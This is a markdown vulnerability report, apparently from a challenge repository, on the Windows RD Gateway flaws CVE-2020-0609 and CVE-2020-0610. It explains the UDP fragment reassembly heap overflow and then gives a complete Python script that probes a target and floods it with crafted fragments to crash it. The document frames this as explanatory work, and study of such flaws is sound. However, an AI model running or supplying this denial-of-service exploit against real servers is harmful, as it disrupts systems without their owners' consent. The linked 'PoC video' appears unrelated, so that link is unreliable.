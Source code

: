 
<div align="center"><h1>CVE-2020-0609 and CVE-2020-0610 REPORT</h1></div>

## About the vulnerability

A remote code execution vulnerability exists in Windows Remote Desktop Gateway (RD Gateway) when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system.  
To exploit this vulnerability, an attacker would need to send a specially crafted request to the target systems RD Gateway via RDP.

**On versions:** Windows Server 2012, 2012 R2, 2016, 2019

## Explanation

The RDG UDP protocol splits the message into multiple packets to transport them. Since UDP is connectionless these packets can arrive in any order. The packets are reassembled at the recipient using the packet headers fragment_id, num_fragments, fragment_length. The function implemented to reassemble the packets has some bugs which lead to this vulnerability.
To summarise the packet reassembly algorithm used : we first allocate memory on the heap to act as a buffer and then divide this buffer into many sections of size (= max_fragment_size). Now whenever a packet arrives, we check if we have received that fragment before using its id, if we have not received that fragment before we copy its contents to the buffer. we copy the entirety of the fragment to the address (&buffer + fragment_id * max_fragment_size). Later when all packets have arrived we simply concatenate all the sections and end up with the actual message.

The problem arises because the size of all the sections required to hold all the packets may be much more than the actual size of the message and therefore the buffer. Thus we can write data on the heap outside the memory which was allocated for us, overwriting other important data this causes the process to run into errors and crash leading to a DOS.

Say the message length is 500, max fragment size is 1000
we can have two packets
packet (id=0) : length = 300
packet (id=1) : length = 200
and the assigned buffer size is 1000
packet 0 is written to the buffer at offset 0 (0 * max_fragment_size) and
packet 1 is written to the buffer at offset 1000 (1 * max_fragment_size)
we can see that packet 1 is written beyond the memory assigned to the buffer and this leads to an overflow even though the buffer was big enough to hold the message.

## Exploit

```
import struct
import ssl
import sys
import signal
from socket import socket, AF_INET, SOCK_DGRAM
from dtls import do_patch, sslconnection

target = input("=> Target website/IP address : ")
port = int(input("=> Port number : "))

#Creating and wrapping SSL socket and establishing connection with target
def open_socket(target1, port1):
    socket1 = ssl.wrap_socket(socket(AF_INET, SOCK_DGRAM))
    setattr(socket1, "ssl_version", sslconnection.PROTOCOL_DTLSv1)
    socket1.connect((target1, port1))
    return socket1

#Creating packets for checking presence of vulnerability and also for DoS attack
def dos_packet(frag_no, frag_id):
    frag = "A" * 2000
    buffer1 = struct.pack("<HHHHH", 5, 2006, frag_id, frag_no, 2000)
    buffer1 += frag.encode()
    return buffer1

#Check if the server is vulnerable
do_patch()
socketA = open_socket(target, port)
packetA = dos_packet(100, 0)
socketA.write(packetA)
signal.signal(signal.SIGALRM, lambda signum, frame: None)
signal.alarm(5)
vuln = False

try:
    response = socketA.recv(16)[-4:]
    value = struct.unpack("<L", response)[0]
    vuln = value != 0x8000ffff
except:
    vuln = True
signal.alarm(0)
socketA.close()

#If vulnerable, Initiating DoS attack
if vuln:
    print("Target is vulnerable.\nInitiating DoS attack.")
    do_patch()
    for i in range(5000):
        socket1 = open_socket(target, port)
        for j in range(10):
            packet = dos_packet(i, i)
            socket1.write(packet)
        socket1.close()

else:
    print("Target not vulnerable.")
```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall3/chall3/exploit_CVE-2020-0609.py)

This exploit was tested on Windows server 2019 and performs DOS on Windows server 2019.

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=dQw4w9WgXcQ)
